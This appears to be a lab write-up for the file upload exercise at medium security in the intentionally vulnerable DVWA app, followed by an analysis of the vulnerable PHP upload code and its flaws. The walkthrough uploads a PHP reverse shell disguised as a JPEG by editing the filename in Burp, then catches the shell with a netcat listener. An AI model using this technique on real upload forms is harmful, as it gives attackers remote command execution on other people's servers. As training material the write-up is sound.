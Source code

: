 # File Upload - Medium

---

## Attack Steps

1. Open Burp Suite

    - Start a **temporary project**

2. Navigate to the proxy tab
    - Shortcut `CTRL + SHIFT + P`

3. Ensure the intercept is OFF 
    - Open the chromium browser

4. Navigate to DVWA and set difficulty to medium 

    - http://<ip address>/dvwa
    - Login
    ```bash 
    admin
    password
    ```
    - Navigate to DVWA Security on the left menu 
    - Set security level to medium

5. Navigate to the target webpage 
    - http://<ip address>/dvwa/vulnerabilites/upload

6. Make a copy of `php_reverse_shell.php` and save as a jpg file:

    - `CTRL + ATL + T` to open a terminal 

    ```bash 
    sudo cp /usr/share/webshells/php/php_reverse_shell.php php_reverse_shell.jpg
    ```

7. Prepare for upload:
    
    - Return to target page
    - Browse for `php_reverse_shell.jpg`
    - Select file 
    - DO NOT UPLOAD 

8. Turn intercept on 

    - On Burp Suite turn the intercept on to catch request

9. Upload file:

    - Request will be caught by Burp

10. Edit request in Burp Proxy: 
    
    - Scroll down to filename
    - Change from
    ```bash 
    filename="php_reverse_shell.jpg"
    ```
    - to:
    ```bash 
    filename="php_reverse_shell.php"
    ```
    
11. Forward the request

    - Turn intercept off

12. On the kali terminal start a listener 

    ```bash 
    nc -lvnp 1234 # If you changed the port number in the webshell file then change it here 
    # l - listener mode
    # v - verbose output 
    # n - skip DNS resolution (faster) 
    # p <port number> - Listen on port number assigned # Change to your port number
    ```

13. Navigate to the uploaded webshell 

    - The uploaded file was saved to http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php

    - Alternatively run `curl -s http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php` in another terminal 

14. On the netcat listener look a connection
    
    - The should be output similar to the following 
    ```bash 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    sh: no job control in this shell 
    sh-3.2$ 
    ```

    - We can now run commands on the DVWA machine

## Vulnerable Code Analysis


### File 
`/var/www/dvwa/vulnerabilities/upload/source/medium`

#### Key Vulnerability Points:

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
	// Where are we going to be writing to?
	$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
	$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

	// File information
	$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
	$uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
	$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

	// Is it an image?
	if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
		( $uploaded_size < 100000 ) ) {

		// Can we move the file to the upload folder?
		if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
			// No
			$html .= '<pre>Your image was not uploaded.</pre>';
		}
		else {
			// Yes!
			$html .= "<pre>{$target_path} succesfully uploaded!</pre>";
		}
	}
	else {
		// Invalid file
		$html .= '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
	}
}

?>
```

### Explanation

- The code takes the uploaded file directly from the user without proper validation or sanitisation of the filename:

    ```php
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename($_FILES['uploaded']['name']);
    ```

- It retrieves file information such as name, MIME type, and size from the uploaded file:

    ```php
    $uploaded_name = $_FILES['uploaded']['name'];
    $uploaded_type = $_FILES['uploaded']['type'];
    $uploaded_size = $_FILES['uploaded']['size'];
    ```

- It attempts to validate the file by checking if the MIME type is `"image/jpeg"` or `"image/png"` and if the size is less than 100,000 bytes (approximately 100 KB):

    ```php
    if( ($uploaded_type == "image/jpeg" || $uploaded_type == "image/png") && ($uploaded_size < 100000) ) {
    ```

- If the validation passes, it moves the uploaded file to the target directory:

    ```php
    move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path);
    ```

- If the move fails, it shows an error message; if successful, it confirms the upload.

- If the validation fails (wrong file type or size), it shows a rejection message.

- Causes

    - **MIME type check is weak and can be spoofed:** The script relies on the MIME type sent by the client, which attackers can manipulate e.g using Burp Suite

    - **Filename not sanitised:** Using `basename()` only strips directory paths but does not prevent dangerous filenames or double extensions (e.g., `shell.php.jpg`).

    - **No verification of file content:** The script does not check if the file is actually a valid image (e.g., via `getimagesize()`), so malicious files can be disguised as images.

    - **Uploads saved in a web-accessible directory:** Uploaded files can be accessed and potentially executed by visiting their URL.

    - **No filename randomisation:** This can lead to file overwriting or easier targeting by attackers.


